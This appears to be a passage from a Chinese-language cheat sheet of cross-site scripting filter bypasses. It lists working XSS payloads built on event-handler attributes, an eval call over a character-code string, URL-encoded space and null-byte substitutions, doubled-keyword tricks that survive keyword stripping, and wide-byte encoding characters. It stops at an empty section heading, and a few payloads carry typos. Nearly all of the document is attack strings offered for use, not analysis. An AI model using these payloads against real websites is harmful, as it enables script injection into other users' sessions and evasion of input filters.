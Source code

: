 ##### 其它标签

```shell
//使用较多方式是通过报错形式来添加标签进行绕过
`<img src="x" onerror="alert('XSS')">`
`<button onclick="javascript:alert('XSS')>XSS</button">`
`<title><img a="</title><img/src=1 onerror=alert(1)//">`
`"onsubmit=javascript:alert(1)%20name="a`
`<details open ontoggle="eval(String.fromCharCode(97,108,101,114,116,40,39,120,115,115,39,41))">`
`<video src="http://www.0dutv.com/plug/down/up2.php/104678898.mp3" onprogress=('body').perpend(123);('body')></video>`
```

#### 替换

| 符号 | 替换     |
| ---- | -------- |
| %0a  | 替换空格 |
| %d   | 替换空格 |
| /**/ | 替换空格 |
| %00  | 截断     |
| ``   | 替换括号 |

#### 重复绕过

```shell
//对部分字符过滤及替换时，采用重复形式进行绕过
`<img ononerrorerror="123">`
`<script>alalertert(123)</script>`
```

#### 宽子节绕过

`GB系列`编码，尝试宽字节字符：

 `%c0`、`%bf`、`%5c`、`%df`

#### 事件属性

| 属性        | 解析                           |
| ----------- | ------------------------------ |
| onclick     | 鼠标点击事件                   |
| onerror     | 当加载文档或图像时发生某个错误 |
| onload      | 某个页面或图像被完成加载       |
| onmousemove | 鼠标被移动                     |
| 等其它事件  |                                |

#### 长度限制
